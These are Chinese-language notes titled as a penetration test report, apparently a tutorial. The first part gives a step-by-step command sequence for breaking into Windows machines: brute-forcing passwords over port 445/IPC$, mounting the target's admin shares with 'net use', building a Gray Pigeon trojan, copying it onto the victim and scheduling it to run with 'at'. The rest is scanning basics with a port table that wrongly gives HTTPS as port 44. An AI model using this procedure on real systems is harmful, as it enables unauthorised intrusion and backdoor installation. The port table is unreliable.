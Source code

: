 8. 渗透测试报告

---
手工测试端口号开放：
telnet IP地址 测试端口

1. scanport扫描445端口

2. 漏洞利用之IPC$:
进行暴力破解:NTscan
暴力破解系统密码之445
3. 命令行控制对方
```
net use f: \\ip地址\文件夹 密码 /user:用户
net use f： /del
net use * /del
net use f: \\ip地址\c$ 密码 /user:用户
net use f: \\ip地址\ipc$ 密码 /user:用户
```
4. 制作木马
灰鸽子软件制作木马
5. copy植入木马(留后门)
copy D:\muma.exe \\ip地址\c$
6. 设置计划任务自动执行木马：
net time \\ip地址
at \\ip地址 时间 "路径"
等待
7. 等待肉鸡上线


# 扫描与爆破
nmap、hydra

## 扫描技术
手工与工具想结合

主机探测与端口扫描
主机探测是指确定目标主机是否存活
端口扫描就是寻找在线主机所开放的端口，并且在端口上所运行的服务。甚至可以进一步确定目标主机操作系统类型和更详细的信息

### 基础知识

端口号 | 协议 | 端口号 |协议
:----:  | :----: | :----: |:----:|
21   | FTP | 44 |HTTPS
22   | SSH | 1433 | SQL Server
23   | Telnet |1521 |  Oracle
25   | SMTP | 3306 | MySQL
80   | HTTP | 3389 | RDP


nmap--扫描器之王
